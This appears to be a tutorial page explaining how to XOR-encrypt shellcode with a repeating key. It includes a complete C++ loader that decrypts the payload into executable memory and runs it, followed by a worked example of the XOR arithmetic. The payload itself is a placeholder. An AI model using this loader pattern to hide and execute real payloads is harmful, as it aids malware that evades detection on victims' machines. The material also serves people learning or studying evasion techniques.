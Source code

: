 # **1. XOR-Based Self-Decrypting Payload (C++)**
### **Step 1: Encrypt the Shellcode**
```cpp
#include <iostream>
#include <windows.h>  // For PBYTE type

/*
	- pShellcode : Base address of the payload to encrypt 
	- sShellcodeSize : The size of the payload 
	- bKey : A random array of bytes of specific size
	- sKeySize : The size of the key
*/
void XorByInputKey(PBYTE pShellcode, SIZE_T sShellcodeSize, PBYTE bKey, SIZE_T sKeySize) {
    for (size_t i = 0, j = 0; i < sShellcodeSize; i++, j++) {
        if (j >= sKeySize) {
            j = 0;  // Reset key index when reaching the end
        }
        pShellcode[i] ^= bKey[j];  // XOR encryption
    }
}

int main() {
    unsigned char shellcode[] = { /* Your original shellcode */ };
    SIZE_T shellcode_size = sizeof(shellcode);

    unsigned char key[] = { 0xAA, 0xBB, 0xCC }; // Multi-byte key
    SIZE_T key_size = sizeof(key);

    std::cout << "Original Shellcode: ";
    for (SIZE_T i = 0; i < shellcode_size; i++) {
        std::cout << "0x" << std::hex << (int)shellcode[i] << " ";
    }
    std::cout << "\n";

    // Encrypt the shellcode
    XorByInputKey(shellcode, shellcode_size, key, key_size);

    std::cout << "Encrypted Shellcode: ";
    for (SIZE_T i = 0; i < shellcode_size; i++) {
        std::cout << "0x" << std::hex << (int)shellcode[i] << " ";
    }
    std::cout << "\n";

    // Decrypt before execution
    XorByInputKey(shellcode, shellcode_size, key, key_size);

    // Allocate executable memory
    void* exec_mem = VirtualAlloc(NULL, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!exec_mem) {
        std::cerr << "[-] VirtualAlloc failed!\n";
        return 1;
    }

    // Copy decrypted shellcode to allocated memory
    memcpy(exec_mem, shellcode, shellcode_size);

    // Execute the shellcode
    ((void(*)())exec_mem)();

    return 0;
}
```

----

## **Concept Overview**
- You have a **payload (`pShellcode`)**, which is a binary array.
- You have a **multi-byte key (`bKey`)**, used for XOR encryption.
- The function **XORs each byte of `pShellcode` with the corresponding byte in `bKey`**.
- If the key is **smaller than the payload**, it **loops (cycles) back to the beginning** of the key.

---

## **XOR Encryption Process**
```mermaid
sequenceDiagram
    participant Payload as Shellcode (pShellcode)
    participant Key as XOR Key (bKey)
    participant Output as Encrypted Data
    
    loop For each byte in pShellcode
        Payload->>Key: Get key byte (bKey[j])
        Key->>Payload: XOR with payload byte
        Payload->>Output: Store encrypted byte
        Key-->>Payload: Move to next key byte (j+1)
        alt If j >= sKeySize
            Key->>Payload: Reset j to 0 (Key starts again)
        end
    end
```

---

## **Step-by-Step Walkthrough (With Example)**
Let's assume:
- **`pShellcode` (shellcode)** = `0x41, 0x42, 0x43, 0x44, 0x45` (`A, B, C, D, E`)
- **`bKey` (multi-byte key)** = `0xAA, 0xBB, 0xCC`
- **Encryption Process:**
  - `pShellcode[i] ^= bKey[j]` → Each byte in shellcode is XORed with the key.
  - `j` increments through the key, cycling back when it reaches the end.

| `i` (index) | `pShellcode[i]` (original) | `bKey[j]` (key) | XOR Output (`pShellcode[i] ^= bKey[j]`) |
|------------|-------------------------|----------------|--------------------------------|
| 0          | `0x41` (A)               | `0xAA`         | `0xEB`                        |
| 1          | `0x42` (B)               | `0xBB`         | `0xF9`                        |
| 2          | `0x43` (C)               | `0xCC`         | `0x8F`                        |
| 3          | `0x44` (D)               | `0xAA`         | `0xEE` (Key loops)            |
| 4          | `0x45` (E)               | `0xBB`         | `0xFE` (Key loops)            |

So, the **encrypted payload** will be:
```
0xEB, 0xF9, 0x8F, 0xEE, 0xFE
```

If you **call `XorByInputKey` again on the encrypted data**, it **decrypts back to the original** (XOR is symmetric).

---

## **Visualization: How Key Loops Over Payload**
```plaintext
Original Shellcode:    A    B    C    D    E
Hex Representation:   41   42   43   44   45
XOR Key (Repeating):  AA   BB   CC   AA   BB
Encrypted Output:     EB   F9   8F   EE   FE
```
Since the **key is shorter than the shellcode**, it **cycles back** after the third byte.

---

## **Memory Representation**
- **Before Encryption:**
```plaintext
pShellcode:   [ 0x41, 0x42, 0x43, 0x44, 0x45 ]  (A, B, C, D, E)
bKey:         [ 0xAA, 0xBB, 0xCC ]  (Key repeats every 3 bytes)
```

- **After XOR Encryption:**
```plaintext
pShellcode:   [ 0xEB, 0xF9, 0x8F, 0xEE, 0xFE ]
```

- **After XOR Decryption (Reapplying XOR on Encrypted Data):**
```plaintext
pShellcode:   [ 0x41, 0x42, 0x43, 0x44, 0x45 ]  (A, B, C, D, E restored)
```

---

